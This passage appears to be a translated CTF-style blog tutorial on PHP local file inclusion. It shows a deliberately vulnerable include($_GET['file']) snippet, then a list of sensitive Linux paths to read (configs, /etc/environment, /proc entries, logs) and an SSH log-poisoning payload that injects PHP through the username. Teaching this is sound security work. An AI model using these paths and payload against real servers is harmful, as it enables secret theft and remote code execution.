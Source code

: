 ```php
<?php
show_source(__FILE__);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    echo "Can you find me???";
}
?>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/2021052715133591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527151346429.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Since there is no limitation, you can obtain other content in the system through directory traversal vulnerabilities. Because the file content is often combined with arbitrary file reading vulnerabilities, we will summarize some common file reading paths in the Liunx environment.

```php
/etc/apache2/*
#Apache configuration file, you can learn about web directory, service port and other information
/etc/nginx/*
#Nginx configuration file, you can learn about web directory, service port and other information
/etc/crontab
#Timed task file
/etc/environment
#Environment variable configuration file. Environment variables may have a large amount of directory information leaked, and may even have secret key leaked.
/etc/hostname
#Hostname
/etc/hosts
#Host name query static table, containing paired information of the specified domain name resolution IP. Through this file, you can detect network card information and intranet IP/domain name
/etc/issue
#System version information
/etc/mysql/*
#mysql configuration file
/etc/my.cnf
#mysql configuration file
/etc/mysql/my.cnf
#MYSQL configuration file
/etc/php/*
#PHP configuration file
/proc directory
#/proc directory usually stores various information about the dynamic running of the process. It is essentially a virtual directory. If you view information that is not the current process, pid can be brute-forced. If you want to view the current process, you just need /proc/self instead of /proc/[pid].
/proc/[pid]/cmdline
#cmdline can read more sensitive information
# ssh log, attack method:
ssh `<?php phpinfo(); ?>`@192.168.1.1
/var/log/auth.log
# apache log
/var/log/apache2/[access.log|error.log]
#apache configuration file (ubuntu)
/etc/apache2/apache2.conf
#apache configuration file (centos)
/etc/httpd/conf/httpd.conf
```
### Restrict the suffix name of the included file
